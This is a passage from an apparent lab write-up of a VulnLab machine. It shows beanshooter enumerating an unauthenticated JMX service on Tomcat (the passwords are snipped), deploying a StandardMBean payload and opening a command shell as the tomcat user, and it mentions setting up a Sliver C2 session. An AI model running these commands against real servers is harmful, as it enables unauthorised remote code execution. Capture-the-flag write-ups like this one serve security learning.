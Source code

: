 ```
[+]             Password:  [...snip...]
[+]             Roles:
[+]                        Users:type=Role,rolename="manage-gui",database=UserDatabase
[+]
[+]             ----------------------------------------
[+]             Username:  admin
[+]             Password:  [...snip...]
[+]             Roles:
[+]                        Users:type=Role,rolename="role1",database=UserDatabase
```

As you can see, the enumeration functionality was able to verify a common vulnerability within this specific JMX server. It seems as though in our scenario, the JMX service does not require authentication.

It also was able to successfully enumerate two tomcat users, `manager` and `admin`, along with their plaintext passwords. Should we have needed to brute-force the application to check for weak passwords, we could use `beanshooter`'s `brute` functionality.

Now that we have credentials to the JMX application, we can simply call a standard shell invocation using `beanshooter`'s `standard` functionality.

```
└─$ java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.10.89.27 2222 tonka
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Creating a TemplateImpl payload object to abuse StandardMBean
[+]
[+]     Deplyoing MBean: StandardMBean
[+]     MBean with object name de.qtc.beanshooter:standard=5272461178416 was successfully deployed.
```

As you can see, an MBean object that abuses the `StandardMBean` method was deployed on the target webserver. We can call this tonka object by calling it directly from our client-side session to create a command-line session.

```
└─$ java -jar beanshooter-4.1.0-jar-with-dependencies.jar tonka shell 10.10.89.27 2222 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[tomcat@10.10.89.27 /]$ whoami
tomcat
[tomcat@10.10.89.27 /]$ 
```

As you can see, a command-line session was generated as the `tomcat` user. I stood up a Sliver C2 session at this point, just to get a proper shell since I noticed I couldn't execute some commands (that you'll see us do later) for basic Bash usage, like `su` or `sudo`.

![](/images/vulnlab/manage-vl/c.png)

# Pivoting via Google Authenticator

Doing a bit of a enumeration onto the internal filesystem seems to show us that there are two users in the `/home` directory.
